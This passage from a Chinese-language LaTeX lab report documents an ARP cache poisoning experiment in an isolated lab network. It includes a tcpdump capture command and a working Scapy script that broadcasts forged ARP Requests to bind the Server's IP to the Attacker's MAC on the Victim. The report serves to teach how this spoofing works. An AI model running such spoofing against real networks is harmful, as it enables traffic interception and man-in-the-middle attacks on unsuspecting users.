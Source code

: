攻击前的抓包结果中，Victim（\texttt{192.168.3.10}）能够收到 Server（\texttt{192.168.3.200}）的 Echo Reply；ARP Reply 中 Server 的 MAC 地址为 \texttt{00:0c:29:3a:96:65}，与表\ref{tab:task1-network}中的实际配置一致，如图\ref{fig:task1-baseline}所示。


\begin{samepage}
\subsubsection{实验过程}

在 Attacker 上分别打开抓包终端和脚本终端，先启动抓包，再执行 ARP Request 脚本：

\begin{lstlisting}[language=bash,caption={Attacker 上抓取 Victim 流量并执行 ARP Request 脚本}]
# 终端一：抓取 Victim 的 ICMP 报文
sudo tcpdump -ni ens33 -e 'icmp and host 192.168.3.10'

# 终端二：发送 ARP Request
sudo python3 arp_request.py
\end{lstlisting}
\end{samepage}

ARP Request 脚本的核心代码如下。脚本从实际网卡读取 Attacker 的地址，并将 Server 的 IP 地址和 Attacker 的 MAC 地址组合到伪造请求中；其中目标协议地址设置为 Victim 的地址，使 Victim 处理该广播报文并更新邻居表。

\begin{lstlisting}[language=Python,caption={ARP Request 投毒脚本}]
#!/usr/bin/env python3
from scapy.all import ARP, Ether, get_if_addr, get_if_hwaddr, sendp

iface = "ens33"
attacker_ip = get_if_addr(iface)
attacker_mac = get_if_hwaddr(iface)
if attacker_ip != "192.168.3.129":
    raise SystemExit(f"unexpected address on {iface}: {attacker_ip}")

packet = (
    Ether(src=attacker_mac, dst="ff:ff:ff:ff:ff:ff") /
    ARP(op=1, hwsrc=attacker_mac, psrc="192.168.3.200",
        hwdst="00:00:00:00:00:00", pdst="192.168.3.10")
)
packet.show()
sendp(packet, iface=iface, count=3, inter=1, verbose=True)
\end{lstlisting}

Attacker 使用 Scapy 构造并广播 ARP Request，连续发送 3 次。报文的以太网目的地址为广播地址，ARP 操作码为 Request；发送方协议地址填写 Server 的 IP 地址 \texttt{192.168.3.200}，发送方硬件地址填写 Attacker 的 MAC 地址 \texttt{00:0c:29:bf:ed:f6}，目标协议地址填写 Victim 的 IP 地址 \texttt{192.168.3.10}。因此，报文向 Victim 声明的映射是“\texttt{192.168.3.200} 对应 \texttt{00:0c:29:bf:ed:f6}”。脚本的关键报文字段和发送结果见图\ref{fig:task1-script}。

